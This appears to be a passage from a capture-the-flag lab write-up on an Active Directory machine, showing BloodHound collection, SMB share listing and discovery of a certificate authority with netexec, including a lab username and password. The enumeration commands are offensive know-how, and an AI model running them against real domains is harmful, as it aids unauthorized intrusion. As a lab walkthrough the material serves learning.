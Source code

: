 #### bloodhound with -k 

    ➜  bloodhound bloodhound-python -c ALL -k -no-pass -u rosie.powell -d cicada.vl -ns 10.10.96.219 -dc DC-JPQ225.cicada.vl

    Password: 
    INFO: Found AD domain: cicada.vl
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: DC-JPQ225.cicada.vl
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: DC-JPQ225.cicada.vl
    INFO: Found 14 users
    INFO: Found 54 groups
    INFO: Found 2 gpos
    INFO: Found 2 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC-JPQ225.cicada.vl
    INFO: Done in 00M 31S

but there is nothing interesting at bloodhound

## ADCS

    ➜  cicada nxc smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k --shares
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False)
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123 
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Enumerated shares
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        Share           Permissions     Remark
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        -----           -----------     ------
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        ADMIN$                          Remote Admin
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        C$                              Default share
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        CertEnroll      READ            Active Directory Certificate Services share
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        IPC$            READ            Remote IPC
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        NETLOGON        READ            Logon server share
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        profiles$       READ,WRITE      
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        SYSVOL          READ            Logon server share

CertEnroll is remind me ADCS at port 80 its look like defaul IIS page

    ➜  cicada nxc ldap DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k -M adcs
    LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
    LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found PKI Enrollment Server: DC-JPQ225.cicada.vl
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found CN: cicada-DC-JPQ225-CA
    ➜  cicada 
